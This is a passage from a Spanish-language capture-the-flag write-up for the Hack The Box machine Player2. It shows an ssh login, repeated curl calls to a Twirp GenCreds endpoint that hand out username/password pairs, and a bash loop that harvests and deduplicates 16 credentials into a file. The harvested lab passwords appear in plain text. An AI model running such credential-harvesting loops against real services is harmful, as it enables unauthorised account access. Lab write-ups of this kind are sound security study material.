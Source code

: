 ```bash
ssh jkr@player2.htb
```
Despues de estar má de una hora buscando he vuelto a hacer el curl y ohhh, distinto nombre y clave


{"name":"0xdf","pass":"tR@dQnwnZEk95*6#"}%  

![](assets/2022-07-04-19-40-24.png)

Aparecen diferentes usuario y contraseña pero se vuelven a repetir por lo que parece que habrá un número limitado.

```bash
{"name":"0xdf","pass":"Lp-+Q8umLW5*7qkc"}%

{"name":"mprox","pass":"ze+EKe-SGF^5uZQX"}%          

{"name":"snowscan","pass":"ze+EKe-SGF^5uZQX"}

{"name":"jkr","pass":"ze+EKe-SGF^5uZQX"}%  

{"name":"snowscan","pass":"XHq7_WJTA?QD_?E2"}


```
Parece que hay diferentes usuarios que aparecen los mismos con diferentes claves p

>El comando tee guarda credenciales únicas de todas formas pondré un -u para que solo salgan las únicas
También le vamos a decir cuantas únicas hay.
```bash
for i in {1..500}; do 
curl -s -X POST -H "Content-Type:application/json" -d '{"number": 1}' http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds;echo;done | sort -u | tee creds.json | wc -l > claves

```
Nos aparece que hay 16

